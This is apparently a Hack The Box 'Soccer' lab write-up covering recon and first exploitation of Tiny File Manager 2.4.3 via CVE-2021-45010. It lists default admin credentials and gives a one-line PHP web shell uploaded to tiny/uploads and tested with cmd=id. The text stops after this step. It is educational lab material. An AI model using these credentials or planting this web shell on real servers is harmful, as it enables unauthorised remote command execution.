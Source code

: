 Title: htb - soccer 
Tags: #htb #lab #soccer #linux #CVE-2021-45010 #SUID

---
### Overview
Vulnerability in initial file manager leading to command execution on the server, which lead to locating a new virtual host that has sql injection that leaks the user credential for ssh. 

On the server a binary that has set uid is set that allows for privileged escalation 

### Initial Fingerprinting 
- OS: Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
- Ports:   
	- 22: OpenSSH 8.2p1
	- 80: nginx 1.18.0 (Ubuntu)
		- http://soccer.htb/
	- 9091:  xmltec-xmlmail
    
### Soccer.htb Recon

- Version: H3K Tiny File Manager - 2.4.3 - CVE-2021-45010
- Github: [https://tinyfilemanager.github.io/](https://tinyfilemanager.github.io/)
- Default Credentials:
	- admin:admin@123
	- User:12345

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcahedhjmmfgUkgZSTCMCC8QQvJGx8OS2knCOfo982LmljvROJ6LAiIoOM5d2hGQxQKpSBoUHNT8OI6V40OwhKQCu0G6Uy0TP23MhLqJxtdwnucQqDlFapwf6QCbBFUEc_8kyD7cQ?key=q9MaodwMauRwDznDaBSNew)

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfbxoUjpj1qCDz0NnU3i1sbiGBn7sgwButsk59FfvC1AdHPrIzCj0bLgFuMLEDWwPZ-c8Cb1FmdDBYxKPZkNwSzEESpSjzw92WohqwJqSUgUXeBY95YqGcXBO9M_Rs0sW7fA04alQ?key=q9MaodwMauRwDznDaBSNew)

### First Exploitation

CVE-2021-45010 - A path traversal vulnerability that allows a user to execute php code 

Using the default admin credential, we will be able to login to the Tiny File Manager Dashboard. 

After testing out the file upload function, we will notice that we do not have the sufficient permission to upload the file in most of the folders except for tiny/uploads.

With this information, we can now leverage CVE-2021-45010 to get remote code execution on the tiny file manager server as shown in the below images:

PHP RCE payload:
```php
<?php echo system($_REQUEST['cmd']); ?>
```

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdwUtryHCsDeNkDxGpkyRNvHxOBs3edjPMhKNwnPq04oaHJavX5Q9LroWC0mbSaDmM5y7wWRLg_crsU4q3xASYaELJjJ0ZTdinbfxPLmTE6yCnoyV4cYKVtwNhyp0xwr7Tf4YpLXA?key=q9MaodwMauRwDznDaBSNew)

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXc3Wz2WxAd0t0TdZdMVkiDS5gq7XBePqh0595bVRCYhrj8AEZL25sYhbm0tlInk1UNDLFPI3Nm86jycVuxxXrrjIAhTGXbpG4uzt0HgRZVUGL6tLM1MRGwLoAHOrm4utvC7bWgL?key=q9MaodwMauRwDznDaBSNew)

Tests out the payload to ensure that it is working 
- http://soccer.htb/tiny/uploads/shell.php?cmd=id
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXelexh7lsOEZeFFkB9mLyIN8zmxOe8BxmKS8JBpI6v_aeI3trZ2qfdkaiwaIfTNzMJroh10KxXJGynUtTpQocLWBXJz5Z7gnHUVk3Fux2JMYVAzoXgQ_duHwhRc-qUVYkklFd--9Q?key=q9MaodwMauRwDznDaBSNew)
